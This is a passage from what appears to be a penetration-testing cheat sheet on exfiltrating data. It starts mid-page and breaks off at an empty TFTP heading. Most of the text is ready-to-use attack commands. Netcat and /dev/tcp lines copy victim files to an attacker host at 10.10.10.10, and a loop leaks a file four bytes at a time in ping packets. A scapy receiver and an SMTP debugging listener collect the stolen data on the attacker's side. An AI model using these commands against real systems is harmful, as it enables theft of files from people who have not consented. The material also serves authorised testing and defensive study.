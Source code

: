 ```bash
nc -lvnp 4444 > new_file
nc -vn <IP> 4444 < exfil_file
```

## /dev/tcp

### Download file from victim

```bash
nc -lvnp 80 > file #Inside attacker
cat /path/file > /dev/tcp/10.10.10.10/80 #Inside victim
```

### Upload file to victim

```bash
nc -w5 -lvnp 80 < file_to_send.txt # Inside attacker
# Inside victim
exec 6< /dev/tcp/10.10.10.10/4444
cat <&6 > file.txt
```

thanks to **@BinaryShadow\_**

## **ICMP**

```bash
# To exfiltrate the content of a file via pings you can do:
xxd -p -c 4 /path/file/exfil | while read line; do ping -c 1 -p $line <IP attacker>; done
#This will 4bytes per ping packet (you could probably increase this until 16)
```

```python
from scapy.all import *
#This is ippsec receiver created in the HTB machine Mischief
def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 0:
            data = pkt[ICMP].load[-4:] #Read the 4bytes interesting
            print(f"{data.decode('utf-8')}", flush=True, end="")

sniff(iface="tun0", prn=process_packet)
```

## **SMTP**

If you can send data to an SMTP server, you can create an SMTP to receive the data with python:

```bash
sudo python -m smtpd -n -c DebuggingServer :25
```

## TFTP
